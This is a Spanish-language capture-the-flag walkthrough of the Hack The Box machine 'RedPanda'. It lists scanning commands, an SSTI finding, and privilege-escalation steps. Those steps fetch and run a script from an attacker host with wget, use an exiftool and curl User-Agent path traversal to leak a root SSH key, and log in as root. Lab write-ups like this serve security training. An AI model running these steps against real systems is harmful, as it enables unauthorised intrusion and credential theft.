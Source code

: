 # Walkthrough para la Máquina "RedPanda" en Hack The Box

Este es un paso a paso detallado de cómo comprometí la máquina RedPanda en Hack The Box. Agradecimientos especiales a [gatogamer1155](https://gatogamer1155.github.io/hackthebox/redpanda/) por proporcionar una solución que me guió en mi proceso.

## Escaneo Inicial

- **Nmap:**
  ```
  nmap -p 22,8080 -sC -sV -oN nmap_scan.txt 10.10.11.170
  ```
  Resultado:
  - Puerto 22 (SSH) abierto.
  - Puerto 8080 (HTTP-Proxy) abierto.

- **Gobuster y WhatWeb:**
  ```
  gobuster dir -u http://10.10.11.170:8080 -w /usr/share/wordlists/dirb/common.txt
  whatweb http://10.10.11.170:8080
  ```
  Resultado:
  - No se obtuvo ninguna información útil.

## Identificación de Vulnerabilidades

- **Vulnerabilidad Encontrada:**
  - Se identificó una vulnerabilidad de Inyección de Plantillas del Lado del Servidor (Server Side Template Injection - SSTI).

- **Payload Utilizado:**
  ```
  python3 payload.py
  ```

## Escalada de Privilegios

1. **Acceso a Usuario:**
   ```
   cat /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java
   ```

2. **Transferencia de Script Python:**
   ```
   wget http://10.10.16.23:8000/sell2.py
   chmod 755 sell2.py
   python3 sell2.py
   ```

3. **Exfiltración de Credenciales:**
   ```
   wget (imagen jpg aleatoria) gaton.jpg
   exiftool -Artist="../home/woodenk/privesc" gaton.jpg
   scp gaton.jpg woodenk@10.10.11.170:.
   ```

4. **Creación de Archivo XML:**
   ```
   cat privesc_creds.xml
   ```

5. **Carga de Archivo XML y Petición Curl:**
   ```
   curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/gaton.jpg"
   ```

6. **Visualización de Archivo XML Modificado:**
   ```
   cat privesc_creds.xml
   ```

7. **Conexión SSH con la Clave Privada:**
   ```
   ssh root@10.10.11.170 -i id_rsa
   ```

8. **Visualización de la Flag:**
   ```
   cat root.txt
   ```

## Notas Finales

- Copié la clave SSH, creé un archivo llamado "id_rsa" y lo moví a ~/.ssh.
  ```
  chmod 400 ~/.ssh/id_rsa
  ```

- Esto fue necesario para evitar problemas de permisos al intentar conectarme por SSH.

Este walkthrough proporciona una descripción estructurada de mi proceso para comprometer la máquina RedPanda en Hack The Box. ¡Espero que sea útil y te inspire a mejorar tus habilidades en ciberseguridad!